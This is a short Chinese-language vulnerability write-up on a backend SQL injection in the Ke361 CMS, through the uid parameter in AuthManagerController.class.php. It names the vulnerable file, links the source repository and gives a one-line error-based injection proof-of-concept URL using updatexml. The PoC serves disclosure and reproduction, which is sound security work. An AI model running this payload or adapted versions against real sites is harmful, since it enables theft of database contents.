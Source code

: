 # Ke361 AuthManagerController.class.php 后台SQL注入漏洞

## 漏洞描述

Ke361 AuthManagerController.class.php uid参数存在 SQL注入漏洞，通过漏洞可以获取数据库敏感信息

## 漏洞影响

<a-checkbox checked>Ke361</a-checkbox></br>

## 环境搭建

<a-checkbox checked>https://gitee.com/jcove/ke361</a-checkbox></br>

## 漏洞复现

CMS产品页面

![img](../../../.vuepress/public/img/1634130579841-e981591e-46f6-4aa8-bc68-6fe39d1e4e35-20220313232823896.png)

存在漏洞的文件为 `Application/Admin/Controller/AuthManagerController.class.php`

![img](../../../.vuepress/public/img/1634142335709-0384ef5c-e05b-41af-b19d-a5b7864faaf3.png)

验证POC

```php
/admin.php?s=/AuthManager/group/uid/1')%20AND%20updatexml(1,concat(0x7e,(select%20md5(1)),0x7e),1)--+
```

![img](../../../.vuepress/public/img/1634142341220-a0120691-16d8-41e2-be07-abcaa561347f.png)